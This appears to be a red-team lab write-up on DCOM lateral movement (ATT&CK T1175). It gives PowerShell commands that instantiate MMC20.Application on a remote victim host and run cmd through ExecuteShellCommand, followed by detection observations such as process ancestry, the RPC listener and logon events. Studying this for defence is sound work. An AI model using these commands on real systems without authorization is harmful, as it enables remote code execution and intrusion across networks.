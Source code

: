 ```yaml
---
description: Lateral Movement
---
```


# T1175: Distributed Component Object Model

This lab explores a DCOM lateral movement technique using MMC20.Application COM as originally researched by enima0x3 in his blog post [Lateral Movement using the mmc20.application Com Object](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

## Execution

MMC20.Application COM class is stored in the registry as shown below:

![](../.gitbook/assets/dcom-registry.png)

Same can be achieved with powershell:

```csharp
Get-ChildItem 'registry::HKEY_CLASSES_ROOT\WOW6432Node\CLSID\{49B2791A-B1AE-4C90-9B8E-E860BA07F889}'
```

![](../.gitbook/assets/dcom-registry2.png)

Establishing a connection to the victim host:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Executing command on the victim system via DCOM object:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$a.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c hostname > c:\fromdcom.txt","7")
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows the command execution and the result of it - remote machine's `hostname` command output is written to `c:\fromdcom.txt`:

![](../.gitbook/assets/dcom-rce.png)

## Observations

Once the connection from an attacker to victim is established using the below powershell:

```csharp
[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```

This is what happens on the victim system - `svchost` spawns `mmc.exe` which opens a listening port via RPC binding:

![](../.gitbook/assets/dcom-mmc-bind.png)

![](../.gitbook/assets/dcom-listening.png)

![](../.gitbook/assets/dcom-ancestry+connections.png)

A network connection is logged from 10.0.0.7 \(attacker\) to 10.0.0.2 \(victim\) via `offense\administrator` \(can be also seen from the above screenshot\):

![](../.gitbook/assets/dcom-logon-event.png)

![](../.gitbook/assets/dcom-connection2.png)

{% embed data="{\"url\":\"https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/\",\"type\":\"link\",\"title\":\"Lateral Movement using the MMC20.Application COM Object\",\"description\":\"For those of you who conduct pentests or red team assessments, you are probably aware that there are only so many ways to pivot, or conduct lateral movement to a Windows system. Some of those techn…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://enigma0x3.files.wordpress.com/2017/01/process\_validation.png\",\"width\":1416,\"height\":598,\"aspectRatio\":0.422316384180791}}" %}

{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand\",\"type\":\"link\",\"title\":\"View ExecuteShellCommand method\",\"description\":\"The ExecuteShellCommand method runs a command in a window. After this method successfully starts the command in a separate process, it returns immediately \(it does not wait for the command to complete\).\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/dotnet/api/system.type.gettypefromclsid?view=netframework-4.7.2\#System\_Type\_GetTypeFromCLSID\_System\_Guid\_System\_String\_\",\"type\":\"link\",\"title\":\"Type.GetTypeFromCLSID Method \(System\)\",\"description\":\"Gets the type associated with the specified class identifier \(CLSID\).\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/windows/desktop/com/com-technical-overview\",\"type\":\"link\",\"title\":\"COM Technical Overview\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1175\",\"type\":\"link\",\"title\":\"Distributed Component Object Model - ATT&CK for Enterprise\"}" %}

